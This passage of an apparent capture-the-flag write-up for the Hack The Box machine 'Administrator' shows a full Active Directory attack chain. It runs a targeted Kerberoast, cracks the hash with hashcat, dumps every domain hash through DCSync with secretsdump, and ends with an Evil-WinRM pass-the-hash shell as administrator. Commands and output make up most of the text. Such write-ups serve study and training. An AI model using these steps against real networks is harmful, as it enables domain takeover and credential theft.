And I got successful login only for the user `emily`. I went to Bloodhound to mark the user `emily` as owned & move further.




And I noticed that the user `emily` was a member of the group `Remote Management Users`, which means that we can use `evil-winrm` to access the host of the user `emily` remotely. Keeping that in mind, I moved further with more reconnaissance.

After looking at `Outbound Object Controls` for the user `emily`, I noticed that the user `emily` has `GenericWrite` privileges over the user `ethan`, which means that we can `Force Change Password` of the user `ethan` by authenticating with the user `emily`.



Keeping that in mind, I moved further & marked the user `Ethan` as owned & checked his privileges over the domain.



I found out that the user `ethan` has `DCSync` privileges over the `administrator` user, which means that we can grab the password hash for the `administrator` user by authenticating with the credentials of the user `ethan`. I proceeded with changing the password for the user `ethan` first, following the same methodology as I used for the previous domain users.

```
git clone https://github.com/ShutdownRepo/targetedKerberoast                                                                  Cloning into 'targetedKerberoast'...                                                                                                    
remote: Enumerating objects: 76, done.                                                                                                  
remote: Counting objects: 100% (33/33), done.                                                                                           
remote: Compressing objects: 100% (19/19), done.
remote: Total 76 (delta 19), reused 17 (delta 14), pack-reused 43 (from 1)
Receiving objects: 100% (76/76), 252.17 KiB | 3.00 MiB/s, done.
Resolving deltas: 100% (30/30), done.
cd targetedKerberoast/
python3 targetedKerberoast.py -v -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
Traceback (most recent call last): 
  File "/home/akku/htb/machines/administrator/targetedKerberoast/targetedKerberoast.py", line 597, in main
    tgt, cipher, oldSessionKey, sessionKey = getKerberosTGT(clientName=userName, password=args.auth_password, domain=args.auth_domain, l
mhash=None, nthash=auth_nt_hash,
                                             ~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                                            aesKey=args.auth_aes_key, kdcHost=args.dc_ip)
                                                            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 323, in getKerberosTGT
    tgt = sendReceive(encoder.encode(asReq), domain, kdcHost)
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 93, in sendReceive
    raise krbError
impacket.krb5.kerberosv5.KerberosError: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

The error message said that the clock skew is too great, so I ran ntpdate to synchronize time with the box itself.

```
sudo ntpdate administrator.htb
2026-09-24 05:57:23.214327 (-0400) +25115.546906 +/- 0.020872 administrator.htb 10.129.68.4 s1 no-leap
CLOCK: time stepped by 25115.546906
python3 targetedKerberoast.py -v -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$fd72b69a56c4df6c02089c0fe8e1eb22$ebe3dc9012326acf285baaec299346d8f483ddb4f264fab4e0c3a4a76896007adb6b91e5505b36215de4bfd0e6e3accc29128083f339b13c539bb46abae8f001ab4373b3d37651c53fdf5f88fdb52bd53e2c6d4995aa6676f086eb3a8534c8bdbc46ad757d40aa8b3698ebab932f80e87c5ca7694a158c001bd9aa9eecc82226d23678f6ec3d93f07f80cbe14ac3d62b1be868e2e807985a265af1eca4887df011006c5aebfbde213add58de3023536f6cf788a36256ecf79134eb1170fc0f2df30f7be3799c55bd04cfa2c99420073de2d1993c2d0b4b394f7389e508694c90f592a153b71fd9e9c82dddcf30b3c0fdffeafda15f96b3d699eddb7e70e45ac5ede645b015a45e3ebc8dca9e4319b14defcfc6988834ea054c5f7506488953124beccac23fad5de69eddcb8012fa81cfa47f76453cb8c39fedc057de3e49d7c3ff2391ef31871470bee86730b51e27c3d9caada5ff530299bb35b9d843ca60dfbf721abac779dbd7f35095fa44eb2e111537414c21d7f9cd12b1118c42fe0d2030e7a0d430eb1d0ac204e5dca457cacf2e0640938e4735819e65521ff3f22116c3a4782ef9bcdbefd4fff569a0be29c032d6f6220aa63ea2d17d4f756508291adf2192230b0807b5356f21b6c5e64bb98da244712e50e5b84d3da3cbf22a58bf81cbcfc5033cd529b2a84dcf806778cd1370cd33aedb2af2689cc3f4962be9aa0f542c10aeddcbaab6093278065c9ea04ab2f75dd2bc30bed75b0d80b82b39babd8c1092a920878d1528e9b0f0728f8f557ba53b5f69532b9d636e50ee104b1a5bfb0391146b81bc47eb9089130b881093853273bf62c0dedfa2f8aec773ebc8fba152f2bc44997944e37e34af6bae1c5f6338c24aeb4855a3fd8c58c848f66335d2f80d900807885b4190f623973c9903054ccbc5a8ebd955ff296a7d66568f5964ccbebb8b08099e9a5babdd6d0b21a6b0bc9c760b809e3b5626ae22559844c7c62b6ca54b2cdb5f6dfba365b0bd5562c9ccac3f2f55ebb0b633df67f3ccef30aede278474684d455974ea041551ab8dc6aa4bbe9c85babff7e21227c3322cd24ca2086ce4927d725a4280178bd8a4a9719e4db92c8a495867edff7fa9f0f146472d11fd506441f121e44e8bafe36907246f3e310e87aebc124877005589c6d8b40950ca511812a3fea848d1af78524a640b6df713f87a21454f218481346af0092e620930e0c45d4a98e65528260ad2f7458a3871574c4ce0566a62c9a61049e23c8f34fdf7eef51a34febeaffa926ba4ebcb15847143e3d95ef89f08c277a44e4f56818c54c9673fe015311a2f1530cd2fee3303714e2aff27428573f3328c096abd97871ff2de530910eae7af2f053ca93f00536a0b1a951473625875200c3cff4502c6f1104ed1a49983933231b07b91f29733e5ed0b93a77a256aaf4a8ded0078f2d8092fc602a949b7be8d77b6a13156701c59fe9f8da8987ec0e1bf19787e5dafeef0864ebf12aaec804284fce3b43068fc23a2b7d5ab8ad43574
[VERBOSE] SPN removed successfully for (ethan)
```

After retrieving the hash for the user `ethan`, I proceeded with cracking the hash to get the password. I added the password hash to a file which I named hashes.txt first.

```
hashcat hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-14650HX, 4906/9877 MB (2048 MB allocatable), 16MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$fd72b69a56c4df6c02089c0fe8e1eb22$ebe3dc9012326acf285baaec299346d8f483ddb4f264fab4e0c3a4a76896007adb6b91e5505b36215de4bfd0e6e3accc29128083f339b13c539bb46abae8f001ab4373b3d37651c53fdf5f88fdb52bd53e2c6d4995aa6676f086eb3a8534c8bdbc46ad757d40aa8b3698ebab932f80e87c5ca7694a158c001bd9aa9eecc82226d23678f6ec3d93f07f80cbe14ac3d62b1be868e2e807985a265af1eca4887df011006c5aebfbde213add58de3023536f6cf788a36256ecf79134eb1170fc0f2df30f7be3799c55bd04cfa2c99420073de2d1993c2d0b4b394f7389e508694c90f592a153b71fd9e9c82dddcf30b3c0fdffeafda15f96b3d699eddb7e70e45ac5ede645b015a45e3ebc8dca9e4319b14defcfc6988834ea054c5f7506488953124beccac23fad5de69eddcb8012fa81cfa47f76453cb8c39fedc057de3e49d7c3ff2391ef31871470bee86730b51e27c3d9caada5ff530299bb35b9d843ca60dfbf721abac779dbd7f35095fa44eb2e111537414c21d7f9cd12b1118c42fe0d2030e7a0d430eb1d0ac204e5dca457cacf2e0640938e4735819e65521ff3f22116c3a4782ef9bcdbefd4fff569a0be29c032d6f6220aa63ea2d17d4f756508291adf2192230b0807b5356f21b6c5e64bb98da244712e50e5b84d3da3cbf22a58bf81cbcfc5033cd529b2a84dcf806778cd1370cd33aedb2af2689cc3f4962be9aa0f542c10aeddcbaab6093278065c9ea04ab2f75dd2bc30bed75b0d80b82b39babd8c1092a920878d1528e9b0f0728f8f557ba53b5f69532b9d636e50ee104b1a5bfb0391146b81bc47eb9089130b881093853273bf62c0dedfa2f8aec773ebc8fba152f2bc44997944e37e34af6bae1c5f6338c24aeb4855a3fd8c58c848f66335d2f80d900807885b4190f623973c9903054ccbc5a8ebd955ff296a7d66568f5964ccbebb8b08099e9a5babdd6d0b21a6b0bc9c760b809e3b5626ae22559844c7c62b6ca54b2cdb5f6dfba365b0bd5562c9ccac3f2f55ebb0b633df67f3ccef30aede278474684d455974ea041551ab8dc6aa4bbe9c85babff7e21227c3322cd24ca2086ce4927d725a4280178bd8a4a9719e4db92c8a495867edff7fa9f0f146472d11fd506441f121e44e8bafe36907246f3e310e87aebc124877005589c6d8b40950ca511812a3fea848d1af78524a640b6df713f87a21454f218481346af0092e620930e0c45d4a98e65528260ad2f7458a3871574c4ce0566a62c9a61049e23c8f34fdf7eef51a34febeaffa926ba4ebcb15847143e3d95ef89f08c277a44e4f56818c54c9673fe015311a2f1530cd2fee3303714e2aff27428573f3328c096abd97871ff2de530910eae7af2f053ca93f00536a0b1a951473625875200c3cff4502c6f1104ed1a49983933231b07b91f29733e5ed0b93a77a256aaf4a8ded0078f2d8092fc602a949b7be8d77b6a13156701c59fe9f8da8987ec0e1bf19787e5dafeef0864ebf12aaec804284fce3b43068fc23a2b7d5ab8ad43574:limpbizkit

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....d43574
Time.Started.....: Thu Sep 24 06:02:54 2026 (1 sec)
Time.Estimated...: Thu Sep 24 06:02:55 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2756.2 kH/s (4.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 16384/14344385 (0.11%)
Rejected.........: 0/16384 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> cocoliso
Hardware.Mon.#1..: Util:  6%

Started: Thu Sep 24 06:02:52 2026
Stopped: Thu Sep 24 06:02:56 2026
```

Hashcat cracked the password for the user `ethan` successfully. Now, I can retrieve the hash for the `administrator` user by using the credentials for the user `ethan` as showcased by Bloodhound.



```
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.129.68.4
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:517c702b2b6dc0f09ef1560366692c3d:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:517c702b2b6dc0f09ef1560366692c3d:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7
administrator.htb\olivia:aes256-cts-hmac-sha1-96:713f215fa5cc408ee5ba000e178f9d8ac220d68d294b077cb03aecc5f4c4e4f3
administrator.htb\olivia:aes128-cts-hmac-sha1-96:3d15ec169119d785a0ca2997f5d2aa48
administrator.htb\olivia:des-cbc-md5:bc2a4a7929c198e9
administrator.htb\michael:aes256-cts-hmac-sha1-96:5d7807e73ff4ad036a3a56e3bf40ca24fbe1d9afa2eb0053ab108f7d3a77895a
administrator.htb\michael:aes128-cts-hmac-sha1-96:fe110dc02ccb4058fdf548721a97d552
administrator.htb\michael:des-cbc-md5:29fba429f42538c4
administrator.htb\benjamin:aes256-cts-hmac-sha1-96:aaeda2d52c9445adc632731c3ca13b7bfdeb9d1b0d8a9a1c6bafd0f515914002
administrator.htb\benjamin:aes128-cts-hmac-sha1-96:9b5fe1c3b6c85444f4abb96f0bffaac0
administrator.htb\benjamin:des-cbc-md5:0bf2eae519c7923b
administrator.htb\emily:aes256-cts-hmac-sha1-96:53063129cd0e59d79b83025fbb4cf89b975a961f996c26cdedc8c6991e92b7c4
administrator.htb\emily:aes128-cts-hmac-sha1-96:fb2a594e5ff3a289fac7a27bbb328218
administrator.htb\emily:des-cbc-md5:804343fb6e0dbc51
administrator.htb\ethan:aes256-cts-hmac-sha1-96:e8577755add681a799a8f9fbcddecc4c3a3296329512bdae2454b6641bd3270f
administrator.htb\ethan:aes128-cts-hmac-sha1-96:e67d5744a884d8b137040d9ec3c6b49f
administrator.htb\ethan:des-cbc-md5:58387aef9d6754fb
administrator.htb\alexander:aes256-cts-hmac-sha1-96:b78d0aa466f36903311913f9caa7ef9cff55a2d9f450325b2fb390fbebdb50b6
administrator.htb\alexander:aes128-cts-hmac-sha1-96:ac291386e48626f32ecfb87871cdeade
administrator.htb\alexander:des-cbc-md5:49ba9dcb6d07d0bf
administrator.htb\emma:aes256-cts-hmac-sha1-96:951a211a757b8ea8f566e5f3a7b42122727d014cb13777c7784a7d605a89ff82
administrator.htb\emma:aes128-cts-hmac-sha1-96:aa24ed627234fb9c520240ceef84cd5e
administrator.htb\emma:des-cbc-md5:3249fba89813ef5d
DC$:aes256-cts-hmac-sha1-96:98ef91c128122134296e67e713b233697cd313ae864b1f26ac1b8bc4ec1b4ccb
DC$:aes128-cts-hmac-sha1-96:7068a4761df2f6c760ad9018c8bd206d
DC$:des-cbc-md5:f483547c4325492a
[*] Cleaning up...
```

And I was able to retrieve the hash of the `administrator` user along with a lot of other users. Now, I can use the NTLM hash for the user `administrator` to access the domain as the `Domain Administrator` through evil-winrm.

```
evil-winrm -i 10.129.68.4 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         9/23/2026   6:16 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> get root.txt
The term 'get' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ get root.txt
+ ~~~
    + CategoryInfo          : ObjectNotFound: (get:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
*Evil-WinRM* PS C:\Users\Administrator\Desktop> download root.txt
                                        
Info: Downloading C:\Users\Administrator\Desktop\root.txt to root.txt
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir c:\users


    Directory: C:\users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/22/2024  11:46 AM                Administrator
d-----        10/30/2024   2:25 PM                emily
d-r---         10/4/2024  10:08 AM                Public


*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir c:\users\emily\desktop


    Directory: C:\users\emily\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         9/23/2026   6:16 PM             34 user.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> download c:\users\emily\desktop\user.txt
                                        
Info: Downloading c:\users\emily\desktop\user.txt to user.txt
                                        
Info: Download successful!

```

```
wc -c user.txt
34 user.txt
wc -c root.txt 
34 root.txt
```